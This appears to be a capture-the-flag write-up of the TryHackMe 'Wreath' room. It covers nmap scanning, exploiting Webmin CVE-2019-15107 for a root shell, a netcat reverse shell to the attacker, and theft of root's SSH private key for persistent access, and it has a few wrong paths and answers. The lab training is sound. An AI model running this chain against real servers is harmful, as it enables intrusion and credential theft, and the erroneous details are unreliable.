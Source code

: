 # TryHackMe - Wreath

[Room link](https://tryhackme.com/room/wreath)

--- 

 ## Task 1 - 4
  
**Just read, understand contents and complete**

--- 

## Task 5

Enumeration 

```bash
$ sudo nmap -sS -p0-14999 -oN nmap-0-to-14999.txt <target_ip>
[...]
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
443/tcp   open  https
10000/tcp open  snet-sensor-mgmt

$ sudo nmap -sS -F -O -oN nmap-os.txt <target_ip>
[...]
Aggressive OS guesses: Linux 3.10 - 3.13 (90%), Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Adtran 424RG FTTH gateway (86%), Linux 2.6.32 (86%)
No exact OS matches for host (test conditions non-ideal).

# Check OS (aggressive scan)
$ sudo nmap -sS -A nmap-os.txt <target_ip>
[...]
80/tcp    open   http       Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)

# Check server web redirection
$ curl http://<target_ip>/                                                                          
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>302 Found</title>
</head><body>
<h1>Found</h1>
<p>The document has moved <a href="https://thomaswreath.thm">here</a>.</p>
</body></html>

# Update /etc/hosts
$ echo "<target_ip> thomaswreath.thm" | sudo tee -a /etc/hosts 

# Reload the webpage. Check Thomas' mobile phone number
$ curl --insecure https://thomaswreath.thm/ | grep '[0-9]\{3\}[ -]\?[0-9]\{3\}[ -]\?[0-9]\{4\}'

# Find highest open port version
$ sudo nmap -sV -p10000 <target_ip>

# Check CVE exploit about MiniServ
$ searchsploit -w webmin 1.890
------------------------------------------------------------------------------------------------------------------------------------ --------------------------------------------
 Exploit Title                                                                                                                      |  URL
------------------------------------------------------------------------------------------------------------------------------------ --------------------------------------------
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasploit)                                                                       | https://www.exploit-db.com/exploits/47330
------------------------------------------------------------------------------------------------------------------------------------ --------------------------------------------
$ curl https://www.exploit-db.com/exploits/47330 | grep -i CVE
```

1. How many of the first 15000 ports are open on the target?

**4**

2. What OS does Nmap think is running?

**CentOS**

3. Open the IP in your browser -- what site does the server try to redirect you to?

**https://thomaswreath.thm/**

4. You will have noticed that the site failed to resolve. Looks like Thomas forgot to set up the DNS!

**Update /etc/hosts**

5. Read through the text on the page. What is Thomas' mobile phone number?

**447821548812**

6. Look back at your service scan results: what server version does Nmap detect as running here?

**MiniServ 1.890 (Webmin httpd)**

7. What is the CVE number for this exploit?

**CVE-2019-15107**

---

## Task 6

```bash
# After do instructions run exploit
$ $ ./CVE-2019-15107.py <target_ip>
[...]
$ whoami
root

# Shell stabilization (on exploit pseudoshell)
$ shell 
[*] Starting the reverse shell process
[*] For UNIX targets only!
[*] Use 'exit' to return to the pseudoshell at any time
Please enter the IP address for the shell: <attacker_ip>
Please enter the port number for the shell: <port_listener>

[*] Start a netcat listener in a new window (nc -lvnp 12345) then press enter.

# On the nc listener
sh-4.4# 

# Check root's hash
sh-4.4# cat/etc/passwd

# Copy content of /root/.ssh/id_rsa
sh-4.4# cat /etc/.ssh/id_rsa #Copy the content
[...]
# On the attacker machine
$ echo "<id_rsa_content>" > id_rsa_wreath
$ chmod 600 id_rsa_wreath

# Connect us to the target machine
$ ssh -i id_rsa_wreath root@<target_ip>
$ whoami
root
```

1. Run the exploit and obtain a pseudoshell on the target!

**Just execut the python exploit**

2. Which user was the server running as?

**root**

3. What is the root user's password hash?

**Check content of /etc/passwd**

4. What is the full path to this file?

**/root/.ssh/id_rsa**

---

## Task 7
